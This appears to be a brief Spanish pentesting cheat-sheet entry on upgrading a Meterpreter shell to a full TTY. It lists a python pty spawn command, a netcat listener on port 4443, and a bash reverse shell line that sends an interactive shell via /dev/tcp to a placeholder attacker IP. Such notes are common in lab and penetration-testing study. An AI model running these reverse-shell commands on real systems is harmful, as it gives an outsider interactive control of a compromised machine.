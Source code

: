 ### Tratamiento TTY meterpreter

```
shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ponerte en escucha por otro puerto
nc -lvnp 4443
Y ejecutar lo siguiente en la shell de metasploit
bash -i >& /dev/tcp/<IP>/4443 0>&1
```

